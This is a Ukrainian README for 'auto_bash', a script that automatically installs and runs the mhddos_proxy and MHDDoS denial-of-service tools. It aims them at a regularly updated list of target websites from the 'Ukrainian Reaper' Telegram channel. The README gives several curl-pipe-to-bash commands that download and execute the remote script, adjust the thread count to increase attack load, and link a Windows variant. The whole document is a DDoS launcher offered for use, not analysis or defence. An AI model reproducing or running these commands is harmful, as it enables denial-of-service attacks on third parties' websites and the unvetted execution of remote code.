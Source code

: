 ## 🪖 Bash скрипт (Windows, Linux, WSL2, Віртуальна машина)  

## ❕Опис

### auto_bash - скрипт на bash, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

* Запускається однією командою в Linux і WSL2 (Windows Subsystem for Linux). Подальше втручання від користувача не обов'язкове. 
 
```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash
```
* Автоматично встановлює git, python3, pip, mhddos_proxy, MHDDoS, розширений список proxy і всі залежності.

* Праюцює із базою сайтів [Українського женця](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База цілей оновлюється кожні 20 хвилин.

* Під час запуску завжди перевіряє і завантажує оновлення mhddos_proxy і MHDDoS.

Рекомендовано використовувати на Ubuntu 20.04. Але повинно працювати на всіх Ubuntu та Debian похідних, а також у WSL2.

Для зупинки скрипта кілька разів натисніть CTRL+C, або закрийте вікно з терміналом.

## ❕Зміна інтенсивності

Якщо скрипт дуже уповільнює ПК, або навпаки ви маєте невикористані ресурси, можна понизити, або навпаки підвищіти інтенсивність роботи скрипта. Для цього треба керувати параметром `threads`. По замовчуванню `threads = 1000`.

Щоб знизити навантаження на систему, спробуйте використати `threads = 500`

```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash -s -- 500
```

Щоб навантажити систему більше, спробуйте використати `threads = 2000`

```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash -s -- 2000
```
## Запуск на Windows у powershell.

Потрібна лише Windows 7 або вище. Усе інше скрипт зробить самостійно.

https://github.com/mErlin-sp/mhddos_powershell

## Встановлення на Windows.

[Инструкція по встановленнию Python3 і Git на Windows](https://telegra.ph/Vstanovlennya-mhddos-proxy-napryamu-na-vash-komp-03-27). Не тестувалось на сумісність з auto_bash. Дозволяє як мінімум запускати mhddos_proxy командами які надаються в каналі [українського женця](https://t.me/ukrainian_reaper_ddos). У випадку помилок можна написати по координатах, залишених в кінці інструкції.
